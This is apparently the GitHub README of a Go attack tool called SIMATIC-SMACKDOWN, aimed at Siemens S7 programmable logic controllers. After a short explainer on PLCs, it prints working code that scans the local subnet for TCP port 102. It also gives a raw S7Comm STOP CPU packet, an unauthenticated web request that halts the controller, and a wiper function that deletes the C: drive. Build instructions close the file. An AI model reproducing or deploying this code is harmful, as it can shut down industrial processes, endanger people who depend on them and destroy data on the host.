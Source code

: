 # :wrestling: SIMATIC-SMACKDOWN

A simple and compact program targeting SIMATIC S7 Programmable Logic Controllers (PLCs) written in Go. Allowing for cross-compilation to target multiple operating systems out of the box, SIMATIC-SMACKDOWN enumerates networks for S7 devices before launching a distributed attack to STOP PLC CPUs.

<p align="center">
  <img width="700" height="450" alt="PXCM" src="https://user-images.githubusercontent.com/72598486/204815532-a523b140-0d63-404d-b3bf-25443b6fac7b.jpg">
</p>

# What are Siemens S7 Programmable Logic Controllers?

SIMATIC is a series of programmable logic controller and automation systems developed by Siemens. The series has gone through four major generations, the latest being the SIMATIC S7 generation. These PLCs are small industrial computers with modular components designed to automate customized control processes. To understand a PLC system, it is best to breakdown the system into two primary parts: the **central processing unit (CPU)** and the **input/output (I/O)** interface system.


![image](https://user-images.githubusercontent.com/72598486/204818575-0b552158-01e0-47fe-9c44-0a07faca07e1.png)


The **central processing unit** contains memory and a communication system needed to instruct the PLC on how to perform. Hence, the reason why CPUs are the “brain” of programmable logic controllers. This is also where data processing and diagnostics take place. The communication system allows the CPU to communicate with other devices such as I/O devices, programming devices, and other PLC systems.

**Input/output (I/O)** modules relay the necessary information to the CPU and communicate the required task in a continuous loop. Input and output devices can either be digital or analog form: digital devices are finite values represented in values of 1 or 0, analog devices are infinite values, and measure ranges of currents or voltages. Inputs or providers are switches, sensors, and smart devices in analog or digital forms. Outputs can be motor starters, lights, valves, and smart devices.

The automation process can be seen in the image below:

![image](https://user-images.githubusercontent.com/72598486/204818074-ac112340-df1f-451f-b11d-7a4bd7e3f149.png)

But what if we could send a signal to turn off the CPU so that communication between the device and the operator could not occur?

# How SIMATIC-SMACKDOWN Works

SIMATIC-SMACKDOWN operates in three phases: interface enumeration, PLC scanning, and STOP PLC CPU.

The first phase of the program enumerates local network interfaces, gathering information about the host's environment:

```go
	// Get Private Interface
    for _, address := range addrs {
        // only add non loopback IPv4 addresses
        ipnet, ok := address.(*net.IPNet)
        if ok && ipnet.IP.To4() != nil && !ipnet.IP.IsLoopback() {
			var ip_addr = ipnet.IP
            return ip_addr.String()
        }
	}
	return ""
  ```
  
After determining the private IP address, the program enumerates the subnet for devices listening on TCP 102, which is defined as ISO-TSAP Transport Service Access Point) Class 0 protocol and utilized by Siemens S7Comm communications.

```go
	// Connect to device ports
	for i := range ip_list {
    	target := ip_list[i] + ":102"
    	conn, err := net.DialTimeout("tcp", target, 1 * time.Second)
    	if err != nil {
			continue
		} else {
			scanned_ips = append(scanned_ips, ip_list[i])
		}
		conn.Close()
	}
	return scanned_ips
```
Once the program identifies the PLCs, SIMATIC-SMACKDOWN launches a STOP CPU command via raw data to the controller. If the device is not password protected, it will turn off the PLC's CPU and stop operations. This functionality has only been tested on an S7-300 and S7-1200.

```go
	// Connect to device ports
	stop := "\x03\x00\x00\x21\x02\xf0\x80\x32\x01\x00\x00\x06\x00\x00\x10\x00\x00\x29\x00\x00\x00\x00\x00\x09\x50\x5f\x50\x52\x4f\x47\x52\x41\x4d"
	for i := range scanned_ips {
    	target := scanned_ips[i] + ":102"
    	conn, err := net.Dial("tcp", target)
    	if err != nil {
			continue
		} else {
			_, err = conn.Write([]byte(stop))
		}
		conn.Close()
	}
```

After sending the termination command to the controller, the program sends an additional STOP CPU via the web interface. If the device is configured to "allow Everybody to change operating mode (Start/Stop)" in the webserver user management, this unauthenticated access will stop controller operations. 

```go
	for i := range scanned_ips {
		client := &http.Client{}
		var data = strings.NewReader(`Run=1&PriNav=Stop`)
		req, err := http.NewRequest("POST", "http://"+scanned_ips[i]+"/CPUCommands", data)
		if err != nil {
			continue
		}
		req.Header.Set("Host", scanned_ips[i])
		req.Header.Set("Content-Length", "19")
		req.Header.Set("Cache-Control", "max-age=0")
		req.Header.Set("Upgrade-Insecure-Requests", "1")
		req.Header.Set("Origin", "http://"+scanned_ips[i])
		req.Header.Set("Content-Type", "application/x-www-form-urlencoded")
		req.Header.Set("User-Agent", "Mozilla/5.0. (Windows NT 10.0; Win64; x64) AppleWebkit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36")
		req.Header.Set("Accept", "text/html, application /xhmtl+xml, application/xml; q=0.9,image/avif, image/webp, image/apng,*/ - *; q=0.8, application/signed-exchange; v=b3; q=0.9")
		req.Header.Set("Referer", "http://"+scanned_ips[i]+"/Portal/Portal.mwsl?PriNav=Start")
		req.Header.Set("Accept-Encoding", "gzip, deflate")
		req.Header.Set("Accept-Language", "en-US, en; q=0.9")
		req.Header.Set("Connection", "close")
		req.Header.Set("Cookie", "siemens_automation_no_intro=TRUE")
		resp, err := client.Do(req)
```
The PLC STOP commands are demonstrated in the following network capture: 

![SIMATIC](https://user-images.githubusercontent.com/72598486/207712579-9b13ea24-a1b5-4a5c-a582-380d37e34d35.png)

The program proceeds to wipe the filesystem of the device, deleting files accessible and owned by the current user. The damage from this function is dependent on administrative privileges and security context in which the program is run. Running the program as root or administrator will devastate the device.

```go
func KillWindows() {
	// If current user does not have administrative privileges, removes files owned by current user
	err := os.RemoveAll("C:\\")
	if err != nil {
		return			
	}
}
```

# Installation 

## Source

```sh
git clone https://github.com/RoseSecurity/SIMATIC-SMACKDOWN.git
cd SIMATIC-SMACKDOWN
make build
```

